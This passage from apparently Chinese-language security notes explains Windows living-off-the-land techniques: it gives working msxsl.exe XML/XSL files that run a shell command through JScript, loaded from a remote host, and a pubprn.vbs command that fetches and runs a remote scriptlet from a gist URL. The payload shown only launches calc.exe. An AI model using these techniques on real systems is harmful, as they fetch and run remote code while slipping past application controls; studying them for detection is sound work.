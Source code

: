 ![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-13.png)

**14、MSXSL.EXE**

msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。

下载地址为：https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：

```
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml

```
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-14.png)

**15、pubprn.vbs**

在Windows 7以上版本存在一个名为PubPrn.vbs的微软已签名WSH脚本，其位于C:\Windows\System32\Printing_Admin_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给GetObject()

```
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```
